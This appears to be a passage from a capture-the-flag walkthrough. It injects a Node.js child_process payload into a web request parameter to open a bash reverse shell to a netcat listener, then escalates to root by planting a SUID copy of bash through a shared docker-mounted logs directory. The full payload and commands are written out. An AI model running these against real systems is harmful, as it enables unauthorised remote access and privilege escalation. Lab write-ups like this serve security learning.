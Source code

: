 When we log into the webiste with one of that credentials - we can spawn reverse shell

Start listener
```
$ nc -lvnp [PORT]
```
Replace `[PORT]` with some normal port (like 1337 or whatever)
To do it - I intercepted request in burp and replaced `time` parameter with this payload

```js
require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/[YOUR IP]/[PORT]+0>%261"')
```

Of course replace `[YOUR IP]` and `[PORT]` with your actual  IP and port you set in netcat


Then, we send the request and we have shell
Now in reverse shell - go to `/logs`
```
# cd /logs
```

There is that log file - but wait 

If we create file inside that directory - we can then access it from ssh

So, when I created `hello.txt` 
```
# touch hello.txt
# echo "Hi" >> hello.txt
```

Then, in SSH I can read it and it was created as a root!
```
$ cd ~/timeTracker-src/logs
$ ls -la
total 16
drwxrw-rw- 2 claire-r claire-r 4096 Jan 20 21:43 .
drwxrwxr-x 6 claire-r claire-r 4096 Jan 20 21:31 ..
-rw-r--r-- 1 root     root        3 Jan 20 21:43 hello.txt
-rw-r--r-- 1 root     root      441 Jan 20 21:39 tt.log

```

There is an interesting way of doing this privesc

From docker reverse shell:
1. copy `ss` binary with `/bin/bash` content into `logs` dir 
```
# cp /bin/bash ss
```
2. Set it's permissions to SUID
```
# chmod u+sx ss
```

Now switch to `claire-r` SSH 
3. run this binary as privileged user
```
$ ss -p
#
```
